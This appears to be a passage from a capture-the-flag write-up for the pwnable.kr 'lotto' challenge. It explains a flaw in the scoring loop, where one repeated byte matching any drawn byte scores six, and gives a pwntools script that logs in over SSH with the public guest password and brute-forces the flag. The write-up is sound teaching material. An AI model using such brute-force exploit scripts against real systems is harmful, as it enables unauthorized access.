 ```c
                }
        }
        return 0;
}
```

Play it first then check the source code.

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

If we have one byte is right, we will get 6 points and win.

Each time, the program will re-randomize variable lotto.

So we will enter a byte * 6 and hope to match this byte with a byte in the variable lotto.

EXP: 

```python
from pwn import *
# context.log_level = "debug"

pwn_ssh = ssh(host="pwnable.kr", port=2222, user="lotto", password="guest")
p = pwn_ssh.process(executable="./lotto", argv=["./lotto"])

p.recvlines(4)

for i in range(1000):
    p.sendline(b"1")
    p.recvuntil("Submit your 6 lotto bytes : ")
    p.sendline(b"------")

    ans = p.recvlines(2)
    print("trying:", i+1)
    if b"bad" not in ans[1]:
        print("flag is:", ans[1].decode())
        break
```

### cmd1

